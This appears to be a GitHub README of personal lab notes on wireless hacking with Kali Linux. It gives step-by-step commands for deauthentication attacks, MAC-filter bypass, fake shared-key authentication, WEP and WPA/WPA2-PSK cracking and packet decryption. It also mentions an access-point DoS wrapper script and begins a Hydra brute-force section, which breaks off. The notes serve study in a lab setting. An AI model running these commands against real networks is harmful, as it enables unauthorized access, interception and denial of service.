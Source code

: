 # Wireless Basics in Kali Linux

*ip link* to view the wireless devices and confirm the card has been detected

*iw dev ap stop/start* start or stop an access point - verify by running *ip link* and look for *UP*

*ip link set <device> up/down* e.g. *ip link set wlan0 up* - bring wireless card up

*airmon-ng* to verify it detects the card

*airmon-ng check* to check for proccesses that could cause trouble

*airmon-ng check kill* to kill those processes

*airmon-ng start/stop <device>* to put device in monitor mode - check with *airmon-ng*

*service NetworkManager start* to restart the network manager (got killed by airmon-ng)

*service wpa_supplicant start* to restart the wpa supplicant (got killed by aimon-ng)

# Find out hidden SSID

1. Wait for legitimate ProbeRequest and read out SSID or

2. Find out MAC-Address and launch a deauthentication attack to force the clients to reconnect and send a Probe Package. *sudo aireplay-ng -0 5 -a 3C:84:6A:DF:AB:7C --ignore-negative wlan0mon*.
*-0* is the deathtentication attack, 5 is the number of deauthentication packets to send and -a specifies the MAC address.

3. Put this filter in Wireshark to see all the non-Beacon traffic going to and from the access point:
*(wlan.bssid == <MAC>) && !(wlan.fc.type_subtype == 0x08)*

# Orient in Network + find out MAC and Device type
*sudo airodump-ng wlan0mon* - captures current networks and clients in the area, requires mon mode

Navigate through the different filters by pressing the key *a*. To look up a device e.g. go to *sta only* and then copy the first 3 hex fields e.g. "E8:FD:F8" and paste it into *https://www.wireshark.org/tools/oui-lookup.html*, in this case it says Shanghai High-Flying Electronics Technology Co., Ltd.

In Airodump press *TAB* to select a certain AP and then the arrow keys to navigate. Now press *m* to mark certain AP with a color. Now all the clients connected to this AP have the same color as well.

*s* key to sort by attributes like signal strength or MAC addr.

*sudo airodump-ng wlan0mon -w output* to create multiple output files to analyze

# Airgraph-ng - Visualize Network Topology captured by Airdump-ng

Run *sudo airgraph-ng -i test-01.csv -o capture.png -g CAPR* to pass the file *test-01.csv* into airgraph-ng and put the output in *capture.png*. -g is the type of the graph output, in this case client access point relationship.

Other options are *-g CPG* for common probe graph to see probe requests

# How to beat MAC Filters

run airodump-ng to find a whitlisted MAC and spoof it. 

*sudo airodump-ng -c 3 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon* -> found: A8:93:4A:F2:C1:7D 

*sudo ifconfig wlan0 down*

run *sudo macchanger -m A8:93:4A:F2:C1:7D wlan0* to change the MAC and connect to the network

*sudo ifconfig wlan0 up* again, *sudo iwconfig wlan0 essid "Wireless Lab"* -> check if it works by running iwconfig wlan0

# Bypass Shared Authentication

Sniff packets between AP and client: 

sudo airodump-ng wlan0mon --bssid 3C:84:6A:DF:AB:7C --channel 11 --write keystream

Either wait for them to connect to the AP or force a reconnect.
Then there should be something in the AUTH column of the airodump window, for me it was "SKA", the reference book states "WEP" should be there. 

After we collected the shared authentication exchange we can run 
*sudo aireplay-ng -1 0 -e "Wireless Lab" -y keystream-01-3C-84-6A-DF-AB-7C.xor -a 3C:84:6A:DF:AB:7C -h AA:AA:AA:AA:AA:AA wlan0mon* to fake the shared authentication and connect to the client.

Also I coded a wrapper for the aireplay-ng programm to run this bypass multiple times with randomly generated SSIDs. When the client count is reached, the AP won't accept new clients essentially ddosing the AP.
To run the script follow these commands:
*chmod +x ddoswrapper.sh* making the script executable
*sudo ./ddoswrapper.sh --ssid "AA:AA:AA:AA:AA:AA" --attempts 100* default attempts are 50.
Have fun :D

# How to crack WEP

run *airodump-ng wlan0mon* to find out the MAC address of the target router and the channel its operating in. 

Then run *sudo airodump-ng -c 3 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon --write WEPDemo* with -c set to the channel, in this case 11 and bssid to the MAC of the router.

Now connect to the router with fake authentication or wait till someone else does, because the access point will only accept packets from associated clients. airodump-ng should show the connected client(s). Never worked with that?

Replay ARP packets using*sudo aireplay-ng -3 -b 3C:84:6A:DF:AB:7C -h a8:93:4a:f2:c1:7d --ignore-negative-one wlan0mon* -h is one of the associated clients of the AP b is the MAC of the AP.

Now just run *aircrack-ng WEPDemo-02.cap* to crack the key using the data collected by airodump-ng. This depends on the network speed and the key strength but shouldn't take much longer then 5-10 minutes.

# How to crack WPA/WPA2 networks which are using PSK

run *airodump-ng wlan0mon* to find out the MAC address of the target router and the channel its operating in. 

Then run *airodump-ng -c 5 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon --write WPACrackingDemo* with -c set to the channel, in this case 11 and bssid to the MAC of the router.

Now we force the other clients to reconnect or wait till someone connects. run *aireplay-ng --deauth 1 -a 3C:84:6A:DF:AB:7C wlan0mon --ignore-negative-one*. Now if the *Auth* section of airodump reads *PSK*, we can stop airodump, otherwise retry.

Crack the file using aircrack utility with the command *aircrack-ng Wsudo aircrack-ng WPACrackingDemo-01.cap -w /usr/share/wordlists/nmap.lst* using our captured .cap file and a wordlist preinstalled from kali. (Important, the worldlist is everything here so optimizing it for the region you are in or including know information is a good idea.)

Of course in this example it will find the key since we included it in the wordlist but it only works if the key is in the wordlist!

# Speeding up the cracking process

The calculation of the Pre-Shared key using the PSK passphrase and the SSID through the PBKDF2 is very time/CPU consuming. The next step, which uses the key along with the parameters in the four-way handshake and verifying it against the MIC in the handshake is inexpensive and has different parameters everytime so we cannot precompute it. So we try to speed up the PSK (also called the Pairwise Master Key(PMK)) calculation as much as possible. 

Precalculate the PMK for a give SSID and worklist using *genpmk*. Run *sudo genpmk -f /usr/share/wordlists/nmap.lst -d PMK-WirelessLab -s "Wireless Lab"*

Now crack the WPA/WPA2 passphrase using a different tool for variety cowpatty.
Run *cowpatty -d PMK-WirelessLab -s "Wireless Lab" -r WPACrackingDemo-01.cap*

# Decrypting WPA packets

Use *airedecap-ng* to decrypt packages we captured. Run *sudo airdecap-ng -p abcdefgh -e "Wireless Lab" WPACrackingDemo-01.cap*

Now the decrypted packages are stored in *WPACrackingDemo-01-dec.cap* and can be analyzed using
Wireshark or sth like *tshark*. E.g. *tshark -r WPACrackingDemo-01-dec.cap *

# Use Hydra to crack HTTP authentication

In this case we generate a wordlist first to brute-force the password.
Run *sudo crunch 8 8 abcdefghi -o testWordlist.txt* to create a wordlist containing from 8 to 8  characters all possible combinations of the letters abcdefghi and writes it in the specified file. 

After this it gets a little tricky since we need to analyze the webpage in order to understand how it processes the password. We need to know if it is a POST or a GET request and alter the options accordingly. For this inspect the network tab in the browser. 





